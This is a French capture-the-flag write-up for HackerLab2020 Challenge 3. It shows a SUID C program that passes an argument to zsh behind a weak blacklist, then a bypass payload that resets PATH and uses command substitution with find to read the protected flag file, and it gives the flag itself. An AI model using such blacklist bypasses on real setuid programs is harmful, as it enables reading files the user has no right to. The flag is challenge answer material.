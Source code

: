 # HackerLab2020 - Challenge 3

## Challenge
Après connexion sur le serveur ssh, nous avons un fichier SUID _chal0x01_ dont le fichier source _chal0x01.c_ est mis à notre disposition.

```c
#define _XOPEN_SOURCE
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <unistd.h>

int covider(char* command){
	int out=0;
	out += strstr(command, "f_l_a_g_")!=0;
	out += strstr(command, "_")!=0;
	out += strstr(command, "*")!=0;
	return out;
}
int main(int argc, char* argv[], char** envp){
	putenv("PATH=/jinfectetonpathalacovid");
	if(covider(argv[2])) return 0;
	int ret;
	ret = execl ("/usr/bin/zsh", "zsh","-c", argv[2],(char *)0);

	return 0;
}
```
# Solution
Il faut comprendre d'abord qu'il y a un control sur le deuxième argument du programme. A cet effet, la réussite de cette épreuve sera effective lorsque nous arrivons à afficher le contenu du fichier *f_l_a_g_* sans utiliser les caractères ou expressions blacklistés.

Dans un premier temps, nous avons vérifié la taille du fichier *f_l_a_g_* en question puis effectué un filtre dessus tout en bypassant les caractères blacklistés et maintenir la variable _$PATH_ intacte.

```bash
chal0x01@vps-dc68098a:~$ ls -lh
total 28K
-rwsr-sr-x 1 chal0x01_pwn chal0x01_pwn 17K août  18 12:06 chal0x01
-r--r----- 1 chal0x01_pwn chal0x01     470 août  18 12:06 chal0x01.c
-r-------- 1 chal0x01_pwn chal0x01     253 août  18 11:06 f_l_a_g_
chal0x01@vps-dc68098a:~$ ./chal0x01 inspiv 'PATH=/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games&&more `find /home/chal0x01 -type f -size 253c`'
Félicitations. Si tu as pu lire ce fichier, c'est que tu remplis les conditions necessaires pour participer à la phase finale du HackerLab2020.
Il s'agit pour toi maintenant de t'entrainer plus que jamais!
Voici le flag final!
CTF_Kephren_1s_Th3_g0@t
chal0x01@vps-dc68098a:~$
```

Payload: ```./chal0x01 inspiv 'PATH=/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games&&more `find /home/chal0x01 -type f -size 253c`'```

```
FLAG: CTF_Kephren_1s_Th3_g0@t
```
